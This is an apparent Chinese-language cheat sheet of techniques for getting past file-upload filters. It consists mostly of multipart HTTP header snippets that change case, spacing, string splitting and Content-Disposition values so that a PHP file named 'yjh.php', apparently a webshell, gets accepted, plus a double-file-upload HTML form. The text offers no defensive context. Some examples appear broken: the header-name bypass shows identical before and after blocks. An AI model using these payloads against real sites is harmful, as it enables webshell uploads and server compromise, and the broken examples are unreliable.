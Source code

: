 * 通过替换大小写来进行绕过

  ```
  Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;yjh.php&#34;
  content-Type: application/octet-stream
  ```

  ```
  content-Disposition: Form-data; name=&#34;file&#34;; filename=&#34;yjh.php&#34;
  Content-Type: application/octet-stream
  ```

* 通过删减空格来进行绕过

  ```
  Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;yjh.php&#34;
  Content-Type: application/octet-stream
  ```

  `Content-Disposition: form-data`冒号后增加或减少一个空格

  `form-data; name=&#34;file&#34;;` 分号后面增加或减少一个空格

  `Content-Type: application/octet-stream`冒号后面 增加一个空格

* 通过字符串拼接绕过

  看`Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;yjh3.php&#34;`
  将`form-data` 修改为 `f&#43;orm-data`
  将`from-data` 修改为 `form-d&#43;ata`

* 双文件上传绕过

  ```
  &lt;form action=&#34;https://www.xxx.com/xxx.asp(php)&#34; method=&#34;post&#34;
  name=&#34;form1&#34; enctype=&#34;multipart/form‐data&#34;&gt;
  &lt;input name=&#34;FileName1&#34; type=&#34;FILE&#34; class=&#34;tx1&#34; size=&#34;40&#34;&gt;
  &lt;input name=&#34;FileName2&#34; type=&#34;FILE&#34; class=&#34;tx1&#34; size=&#34;40&#34;&gt;
  &lt;input type=&#34;submit&#34; name=&#34;Submit&#34; value=&#34;上传&#34;&gt;
  &lt;/form&gt;
  ```

* HTTP header 属性值绕过

  `Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;yjh.php&#34;`
  我们通过替换`form-data` 为`*`来绕过
  `Content-Disposition: *; name=&#34;file&#34;; filename=&#34;yjh.php&#34;`

* HTTP header 属性名称绕过

  ```
  Content-Disposition: form-data; name=&#34;image&#34;; filename=&#34;085733uykwusqcs8vw8wky.png&#34;
  Content-Type: image/png
  ```

  绕过内容

  ```
  Content-Disposition: form-data; name=&#34;image&#34;; filename=&#34;085733uykwusqcs8vw8wky.png&#34;
  Content-Type: image/png
  ```
